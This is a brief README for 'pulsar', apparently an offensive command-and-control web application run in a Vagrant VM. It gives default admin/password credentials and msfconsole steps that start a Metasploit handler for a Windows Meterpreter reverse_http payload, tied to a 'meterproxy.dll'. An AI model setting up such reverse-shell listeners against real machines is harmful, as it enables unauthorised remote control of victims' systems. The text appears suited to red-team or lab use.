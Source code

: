 pulsar
==============================

Requirements:

* Vagrant
* Virtualbox
* Ansible (brew install ansible)

Starting:

    $ vagrant up --provider virtualbox

The application should now be accessible at http://localhost:8000/. Default credentials are admin/password.

Metasploit Handler:

    $ vagrant ssh
    # msfconsole
    msf > use multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_http
    msf exploit(handler) > set LHOST 127.0.0.1
    msf exploit(handler) > set LPORT 8115
    msf exploit(handler) > exploit
    [*] Started HTTP reverse handler on http://0.0.0.0:8115/
    [*] Starting the payload handler...

LPORT should match HANDLER_PORT in config/settings/common.py, and the configured port in meterproxy.dll.
